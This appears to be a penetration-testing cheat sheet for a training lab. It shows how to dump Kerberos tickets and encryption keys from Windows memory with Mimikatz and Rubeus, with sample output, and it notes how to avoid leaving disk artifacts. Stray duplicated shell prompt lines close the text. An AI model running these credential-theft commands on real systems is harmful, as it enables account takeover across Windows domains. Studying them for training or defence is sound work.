 
## 🛠️ Harvesting Kerberos Tickets

### 1. Mimikatz Ticket Export

#### Export All Tickets to .kirbi Files
```cmd
# Launch Mimikatz with debug privileges
mimikatz.exe
privilege::debug

# Export all tickets to current directory
sekurlsa::tickets /export

# Results in .kirbi files like:
# [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
# [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
```

#### Ticket Naming Convention
```bash
# User tickets
[randomvalue]-username@service-domain.local.kirbi

# Computer account tickets (end with $)
[randomvalue]-computername$@service-domain.local.kirbi

# TGT tickets (krbtgt service)
[randomvalue]-username@krbtgt-domain.local.kirbi
```

### 2. Rubeus Ticket Export

#### Dump All Tickets (Base64 Format)
```cmd
# Export all tickets as Base64 (easier copy-paste)
Rubeus.exe dump /nowrap

# Output includes:
ServiceName          :  krbtgt/inlanefreight.htb
UserName             :  plaintext
Base64EncodedTicket  :  doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA...
```

**Note**: Rubeus exports tickets in Base64 format instead of files, preventing disk artifacts.

### 3. Extract Kerberos Encryption Keys

#### Mimikatz Key Extraction
```cmd
mimikatz.exe
privilege::debug

# Extract all Kerberos encryption keys
sekurlsa::ekeys

# Results show multiple key types:
aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> cat C:\john\john.txt
